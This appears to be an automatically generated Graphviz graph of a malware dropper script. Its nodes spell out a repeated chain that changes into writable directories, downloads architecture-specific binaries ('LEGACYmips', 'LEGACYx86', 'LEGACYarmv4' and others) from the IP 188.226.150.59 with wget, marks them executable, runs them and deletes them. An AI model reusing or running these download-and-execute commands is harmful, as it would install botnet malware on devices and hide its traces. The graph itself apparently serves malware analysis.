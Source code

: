 digraph {
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/system "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 10 [label="||,"];
10 [label="wget http://188.226.150.59/LEGACYmips "];
10 -> 12 [label=";,"];
12 [label="chmod +x LEGACYmips "];
12 -> 14 [label=";,"];
14 [label="./LEGACYmips "];
14 -> 16 [label=";,"];
16 [label="rm -rf LEGACYmips "];
16 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/system "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 28 [label="||,"];
28 [label="wget http://188.226.150.59/LEGACYmips64 "];
28 -> 30 [label=";,"];
30 [label="chmod +x LEGACYmips64 "];
30 -> 32 [label=";,"];
32 [label="./LEGACYmips64 "];
32 -> 34 [label=";,"];
34 [label="rm -rf LEGACYmips64 "];
34 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/system "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 46 [label="||,"];
46 [label="wget http://188.226.150.59/LEGACYmipsel "];
46 -> 48 [label=";,"];
48 [label="chmod +x LEGACYmipsel "];
48 -> 50 [label=";,"];
50 [label="./LEGACYmipsel "];
50 -> 52 [label=";,"];
52 [label="rm -rf LEGACYmipsel "];
52 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/system "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 64 [label="||,"];
64 [label="wget http://188.226.150.59/LEGACYsh4 "];
64 -> 66 [label=";,"];
66 [label="chmod +x LEGACYsh4 "];
66 -> 68 [label=";,"];
68 [label="./LEGACYsh4 "];
68 -> 70 [label=";,"];
70 [label="rm -rf LEGACYsh4 "];
70 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/system "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 82 [label="||,"];
82 [label="wget http://188.226.150.59/LEGACYx86 "];
82 -> 84 [label=";,"];
84 [label="chmod +x LEGACYx86 "];
84 -> 86 [label=";,"];
86 [label="./LEGACYx86 "];
86 -> 88 [label=";,"];
88 [label="rm -rf LEGACYx86 "];
88 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/system "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 100 [label="||,"];
100 [label="wget http://188.226.150.59/LEGACYi486 "];
100 -> 102 [label=";,"];
102 [label="chmod +x LEGACYi486 "];
102 -> 104 [label=";,"];
104 [label="./LEGACYi486 "];
104 -> 106 [label=";,"];
106 [label="rm -rf LEGACYi486 "];
106 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/system "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 118 [label="||,"];
118 [label="wget http://188.226.150.59/LEGACYi586 "];
118 -> 120 [label=";,"];
120 [label="chmod +x LEGACYi586 "];
120 -> 122 [label=";,"];
122 [label="./LEGACYi586 "];
122 -> 124 [label=";,"];
124 [label="rm -rf LEGACYi586 "];
124 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/system "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 136 [label="||,"];
136 [label="wget http://188.226.150.59/LEGACYi686 "];
136 -> 138 [label=";,"];
138 [label="chmod +x LEGACYi686 "];
138 -> 140 [label=";,"];
140 [label="./LEGACYi686 "];
140 -> 142 [label=";,"];
142 [label="rm -rf LEGACYi686 "];
142 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/system "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 154 [label="||,"];
154 [label="wget http://188.226.150.59/LEGACYpowerpc "];
154 -> 156 [label=";,"];
156 [label="chmod +x LEGACYpowerpc "];
156 -> 158 [label=";,"];
158 [label="./LEGACYpowerpc "];
158 -> 160 [label=";,"];
160 [label="rm -rf LEGACYpowerpc "];
160 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/system "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 172 [label="||,"];
172 [label="wget http://188.226.150.59/LEGACYpowerpc440fp "];
172 -> 174 [label=";,"];
174 [label="chmod +x LEGACYpowerpc440fp "];
174 -> 176 [label=";,"];
176 [label="./LEGACYpowerpc440fp "];
176 -> 178 [label=";,"];
178 [label="rm -rf LEGACYpowerpc440fp "];
178 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/system "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 190 [label="||,"];
190 [label="wget http://188.226.150.59/LEGACYm86k "];
190 -> 192 [label=";,"];
192 [label="chmod +x LEGACYm86k "];
192 -> 194 [label=";,"];
194 [label="./LEGACYm86k "];
194 -> 196 [label=";,"];
196 [label="rm -rf LEGACYm86k "];
196 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/system "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 208 [label="||,"];
208 [label="wget http://188.226.150.59/LEGACYsparc "];
208 -> 210 [label=";,"];
210 [label="chmod +x LEGACYsparc "];
210 -> 212 [label=";,"];
212 [label="./LEGACYsparc "];
212 -> 214 [label=";,"];
214 [label="rm -rf LEGACYsparc "];
214 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/system "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 226 [label="||,"];
226 [label="wget http://188.226.150.59/LEGACYarmv4 "];
226 -> 228 [label=";,"];
228 [label="chmod +x LEGACYarmv4 "];
228 -> 230 [label=";,"];
230 [label="./LEGACYarmv4 "];
230 -> 232 [label=";,"];
232 [label="rm -rf LEGACYarmv4 "];
232 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/system "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 244 [label="||,"];
244 [label="wget http://188.226.150.59/LEGACYarmv4tl "];
244 -> 246 [label=";,"];
246 [label="chmod +x LEGACYarmv4tl "];
246 -> 248 [label=";,"];
248 [label="./LEGACYarmv4tl "];
248 -> 250 [label=";,"];
250 [label="rm -rf LEGACYarmv4tl "];
250 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/system "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 262 [label="||,"];
262 [label="wget http://188.226.150.59/LEGACYarmv5 "];
262 -> 264 [label=";,"];
264 [label="chmod +x LEGACYarmv5 "];
264 -> 266 [label=";,"];
266 [label="./LEGACYarmv5 "];
266 -> 268 [label=";,"];
268 [label="rm -rf LEGACYarmv5 "];
268 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/system "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 280 [label="||,"];
280 [label="wget http://188.226.150.59/LEGACYarmv6 "];
280 -> 282 [label=";,"];
282 [label="chmod +x LEGACYarmv6 "];
282 -> 284 [label=";,"];
284 [label="./LEGACYarmv6 "];
284 -> 285 [label=";,"];
}
